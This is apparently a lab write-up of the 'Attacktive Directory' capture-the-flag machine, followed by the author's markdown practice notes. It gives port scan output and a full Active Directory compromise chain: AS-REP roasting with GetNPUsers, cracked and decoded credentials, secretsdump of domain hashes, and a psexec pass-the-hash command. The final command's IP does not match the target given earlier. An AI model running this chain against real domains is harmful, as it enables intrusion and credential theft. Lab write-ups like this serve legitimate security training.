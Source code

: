 # Attacktive Directory
<b>Target IP: <code>10.10.87.50</code></b>

 <p>
 	53/tcp   open  domain        Simple DNS Plus <br>
 	80/tcp   open  http          Microsoft IIS httpd 10.0<br>
 	88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-10 03:10:15Z)<br>
 	135/tcp  open  msrpc         Microsoft Windows RPC<br>
 	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn<br>
 	389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)<br>
 	445/tcp  open  microsoft-ds?<br>
 	464/tcp  open  kpasswd5?<br>
 	593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0<br>
 	636/tcp  open  tcpwrapped<br>
 	3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)<br>
 	3269/tcp open  tcpwrapped<br>
 	389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
 </p>
 <p>Let's look at the port 80 <img src="https://i.ibb.co/Qr56rVy/1.png" alt="1" border="0"></p>

<p>
	Using enum4kerb we found interesting users like backup and svc-admin. Using this command: <code>python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.87.50 spookysec.local/svc-admin -no-pass</code> We got a hash and using <code>john</code> we know that password is <i>management2005</i><br>
	Now let's use smbmap. <br>
	<code>smbmap -H 10.10.87.50 -d spookysec.local -u svc-admin -p management2005</code>
	<p>
		Using smbclient we get the the interesting file from backup directory and find there base64 encoded message. If we decode it we get these creds: <code>backup@spookysec.local:backup2517860</code><br>
		Using this command <code>secretsdump.py -just-dc backup@10.10.87.50</code> and the password we can get all the hashes. <br>
		Then we can use <code>psexec.py</code> to exploit the <i>pass the hash</i> attack and get access to the servers. <code>psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc administrator@10.10.87.5</code>
	</p>
</p>

**I am sorry for such a bad appearance, I am just learning to build articles in markdown**

`What if I try to write some code here`
*maaaan, it looks like it is much more comfortable to use the special characters instead of the tags*

**I found a lot of useful information about markdown *[here](https://www.markdownguide.org/cheat-sheet/)***

Also, I found there that we can make ==highlights==.
And we can paste a pretty big piece of code:
```python3
import os
print("hello my friend")
print("This is it for now")
```

